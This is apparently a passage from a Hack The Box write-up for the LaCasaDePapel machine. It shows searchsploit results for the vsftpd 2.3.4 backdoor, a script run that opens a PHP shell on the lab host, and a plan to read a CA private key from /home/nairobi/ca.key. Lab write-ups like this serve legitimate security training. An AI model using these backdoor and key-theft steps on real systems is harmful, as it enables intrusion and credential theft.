 I will start testing if I can access the FTP service and then explore the web server, remember to add `lacasadepapel.htb` to the host file!

## FTP

First of all, since I know the version of this service let's see if there are exploits available:

```bash
┌──(kali㉿kali)-[~]
└─$ searchsploit vsftpd 2.3.4
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                           | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                              | unix/remote/17491.rb
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

Well I guess that yes they are, let's try to use this backdoor then:

```bash
┌──(kali㉿kali)-[~/Documents/HTB/LaCasaDePapel]
└─$ python ftp.py 10.10.10.131
Success, shell opened
Send `exit` to quit shell
Psy Shell v0.9.9 (PHP 7.2.10 — cli) by Justin Hileman
ls
Variables: $tokyo
```

We are now in a pretty limited yet interesting shell as `dali`. That `ls` command showed a variable called `tokyo`, and trying to get a bit more about it I got something interesting (I learnt about how to use the shell with the `help` command btw):

```php-inline
show $tokyo
  > 2| class Tokyo {
    3|  private function sign($caCert,$userCsr) {
    4|          $caKey = file_get_contents('/home/nairobi/ca.key');
    5|          $userCert = openssl_csr_sign($userCsr, $caCert, $caKey, 365, ['digest_alg'=>'sha256']);
    6|          openssl_x509_export($userCert, $userCertOut);
    7|          return $userCertOut;
    8|  }
    9| }
```

Looks like a way of getting a user cert, probably for the website. I will collect the CA private key for later.
